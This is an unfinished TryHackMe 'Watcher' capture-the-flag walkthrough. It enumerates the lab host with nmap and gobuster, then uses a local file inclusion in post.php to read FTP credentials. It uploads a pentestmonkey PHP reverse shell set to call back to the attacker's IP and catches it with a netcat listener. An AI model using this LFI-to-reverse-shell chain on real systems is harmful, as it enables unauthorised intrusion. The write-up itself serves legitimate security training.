




# Watcher - TryHackMe CTF Challenge

> [Challenge Link](https://tryhackme.com/room/watcher)

## Preparation

- Install OpenVPN on your system
    - Both the OpenVPN Setup Guide and personal configuration files are available on [TryHackMe Access page](https://tryhackme.com/access)
- Download your personal OpenVPN configuration files (`.ovpn`)
- Open the terminal
- Navigate to the folder with personal configuration files
- `sudo openvpn <configuration file name>.ovpn`
- In a new terminal tab/window, ping the IP address of the lab machine, e.g.: `ping 10.114.163.54`



> **Important**: Every Lab Machine has a unique IP. Replace my IP (`10.114.163.54`) with the one that corresponds to your Lab Machine.




## Flag 1 - `nmap`, HTTP, `gobuster`, subpages

Use `nmap` to see the open ports:

```bash
nmap 10.114.163.54
```

Output:

```txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-03 23:33 CET
Nmap scan report for 10.114.163.54
Host is up (0.024s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds
```

There is an HTTP port open. Visit the page by typing the IP address in the browser.

Main page:


Run Gobuster to check hidden resources on the web server using a wordlist.

I use [this Gobuster wordlist](https://github.com/matteo741/Gobuster/blob/main/wordlist.txt).

Having downloaded the wordlist to the working directory, run Gobuster:

```bash
gobuster dir -u http://10.114.163.54 -w ./wordlist.txt -x txt,html,php
```

- `dir` mode - look for hidden directories and files on the server
- `-u` option - scan the following URL
- `-w` option - use the specified wordlist
- `-x` option - look for files with the specified extensions

Output fragment:

```txt
=================================================
Starting gobuster in directory enumeration mode
=================================================
/css                  (Status: 301) [Size: 312] [--> http://10.114.163.54/css/]
/images               (Status: 301) [Size: 315] [--> http://10.114.163.54/images/]
/index.php            (Status: 200) [Size: 4826]
/robots.txt           (Status: 200) [Size: 69]
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
(...)

```

Check out the file `robots.txt` by viewing it in the browser like a sub-page: type `http://10.114.163.54/robots.txt` in the address bar.

Contents:

```txt
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

View the resource in the browser: `http://10.114.163.54/flag_1.txt`

Output:

```txt
FLAG{<Flag 1>}
```

## Flag 2 - Local File Inclusion (LFI), Connecting to FTP

Try to open `secret_file_do_not_read.txt` the same way in the browser: `http://10.114.163.54/secret_file_do_not_read.txt`



We need to find another way to open that page.

See what happens if we open one of the subpages on the main page:



Instruct the PHP server to return the contents of the secret file to us, bypassing the permission check: `http://10.114.163.54/post.php?post=secret_file_do_not_read.txt`

Contents:

> Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777

Connect to the FTP server:

```bash
lftp -u ftpuser 10.114.163.54
```

Use `givemefiles777` as the password.

Now that you logged in successfully, list the files on FTP.

```bash
ls
```

Output:

```txt
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```

Flag 2 reached: `cat ./flag_2.txt`.

## Flag 3 - Reverse Shell, `netcat`

[Download a PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and put it into the working directory.

Inside the PHP source code, some changes must be made before using the reverse shell.

Check the attacking machine's IP address:

```bash
ip a show tun0
```

Output:

```txt
7: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1380 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 192.168.150.193/18 brd 192.168.191.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::f1ef:dbb7:c0e9:4499/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
```

Take the `inet` address and use it inside `rshell.php`. On your local machine, change the configuration inside `rshell.php`:

```bash
nano ./rshell.php
```

```php
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.150.193';  // CHANGE THIS
$port = 2137;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

The port name can be anything that does not have an existing functionality. Ports 2000+ should be generally safe.

Since files can be saved in the `files/` directory (as stated in `secret_file_do_not_read.txt`; also `files/` directory has the write permission), enter that directory before uploading the reverse shell:

```bash
cd ./files/
```

Put the reverse shell onto the FTP server:

```bash
put ./rshell.php
```

- `./rshell.php` is the path to the reverse shell (the file we want to put) *on the local machine*

Set up (on local machine) a `netcat` listener on a chosen port:

```bash
nc -lvnp 2137
```

- `-l` (*listen*) - use *listening mode*. Instead of initiating a connection with another server, wait for incoming connections
- `-v` (*verbose*) - display more information about connection status and IP addresses that connected to the server
- `-n` (*numeric*) - do not resolve DNS name (e.g. to avoid creating unwanted net traffic); operate solely on numeric IP addresses instead
- `-p` (*port*; *+port number*) - take a port number as an argument and listen on it

Use your browser to run a reverse shell by executing the file by inserting the file into URL:

```txt
http://10.114.163.54/post.php?post=/home/ftpuser/ftp/files/rshell.php
```

Netcat should receive the reverse shell connection.

Example Netcat (`nc -lvnp`) output:

```txt
Listening on 0.0.0.0 2137
Connection received on 10.114.163.54 55292
Linux ip-10-114-163-54 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 00:44:20 up  1:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

*In Progress...*

(...)